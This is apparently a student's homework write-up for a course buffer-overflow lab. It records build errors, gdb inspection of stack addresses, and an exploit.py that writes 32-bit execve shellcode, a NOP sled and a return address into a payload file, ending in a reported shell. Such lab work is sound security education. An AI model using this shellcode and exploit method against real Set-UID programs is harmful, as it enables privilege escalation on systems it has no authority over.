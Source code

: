 # HMWK3 Buffer Overflow Attack Lab (Set-UID Version)

CS487 Secure Computer Systems

Robert D. Hernandez <rherna70@uic.edu>

## Env Setup 

See the included taskfile for linking sh to zsh and disabling ASLR convenience scripts `task disable_alr`, `link_to_zsh`

## Task 1: 

I tried compiling shellcode/32_bit_shellcode.s and shellcode/64_bit_shellcode.s with gcc but was met with:

```➜  shellcode git:(hw3/buffer_overflow_attack_lab) ✗ gcc -m32 -DBUF_SIZE=100 fno-stack-protector -z noexecstack -o 32 32_bit_shellcode.s 
32_bit_shellcode.s: Assembler messages:
32_bit_shellcode.s: Warning: end of file not at end of a line; newline inserted
32_bit_shellcode.s:1: Error: no such instruction: `store the command on stack'
32_bit_shellcode.s:2: Error: too many memory references for `xor'
32_bit_shellcode.s:6: Error: too many memory references for `mov'
32_bit_shellcode.s:6: Error: no such instruction: `ebx -->"/bin//sh":execve()’s 1st argument'
32_bit_shellcode.s:7: Error: no such instruction: `construct the argument array argv[]'
32_bit_shellcode.s:8: Error: invalid character '[' in mnemonic
32_bit_shellcode.s:9: Error: invalid character '[' in mnemonic
32_bit_shellcode.s:10: Error: too many memory references for `mov'
32_bit_shellcode.s:10: Error: no such instruction: `ecx -->argv[]:execve()’s 2nd argument'
32_bit_shellcode.s:11: Error: no such instruction: `for environment variable'
32_bit_shellcode.s:12: Error: too many memory references for `xor'
32_bit_shellcode.s:12: Error: junk at end of line, first unrecognized character is `:'
32_bit_shellcode.s:13: Error: no such instruction: `invoke execve()'
32_bit_shellcode.s:14: Error: too many memory references for `xor'
32_bit_shellcode.s:15: Error: too many memory references for `mov'
32_bit_shellcode.s:15: Error: invalid character '(' in mnemonic
32_bit_shellcode.s:16: Error: operand size mismatch for `int'
```

## Task 2: 

I created a simple taskfile entry to build and clean `stack.c` `call.shellcode.c` `shellcode.c`

![alt text](images/build.png)

## Task 3: Launching Attack on 32-bit Program (Level 1)

We begin by running the compiled `stack.c` with `gdb` and we set a breakpoint at the `bof()` function, we see pwndbg below:

![alt text](images/stack_bof_break.png)

I didn't have `$ebp` on my machine I had `$rbp` so printing that value we see the value of `$rbp` is `0x7fffffffdce0`

![alt text](images/rbp_print.png)

and the address of `&buffer` is `0x7ffff7fb0e30`

![alt text](images/buffer_address.png)

I later turned on debugging symbols
![alt text](images/debugging_symbols.png)

I then decided to try the following `exploit.py` and found that the address of the buffer was too high and causing an integer overflow error in python when trying to write it as a bytestring

```
#!/usr/bin/python3

import sys

shellcode= (
    "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\x31\xc0\xb0\x0b\xcd\x80"
).encode('latin-1')

# Fill the content with NOP’s
content = bytearray(0x90 for i in range(517))

##################################################################
# Put the shellcode somewhere in the payload
start = 20 # Need to change
content[start:start + len(shellcode)] = shellcode

# Decide the return address value
# and put it somewhere in the payload
ret = 0x7fffffffdc70
# offset = 0 # Need to change
offset = 20 + len(shellcode)

L = 4 # Use 4 for 32-bit address and 8 for 64-bit address
content[offset:offset + L] = (ret).to_bytes(L,byteorder='little')
##################################################################

# Write the content to a file
with open('badfile', 'wb') as f:
    f.write(content)
```

produces

```
verflowError: int too big to convert
➜  hw3 git:(hw3/buffer_overflow_attack_lab) ✗ python3 exploit.py
Traceback (most recent call last):
  File "/home/rherna70/code/CS487/hw3/exploit.py", line 24, in <module>
    content[offset:offset + L] = (ret).to_bytes(L,byteorder='little')
OverflowError: int too big to convert
```


I found that I was compiling `stack.c` in 64 bit mode and using a 64 bit address for the buffer start in `exploit.py` so after enabling the `-m32` flag I found the following values for `$ebp` and `&buffer`


![alt text](images/32_bit_addrs.png)

`$ebp=0xffffcc98`

`&buffer=0xffffcc2c`

After enabling stack execution with a compiler flag I was able to get a shell:

![alt text](images/shell.png)

## Task $: Launching Attack Without knowing Buffer Size (Level 2)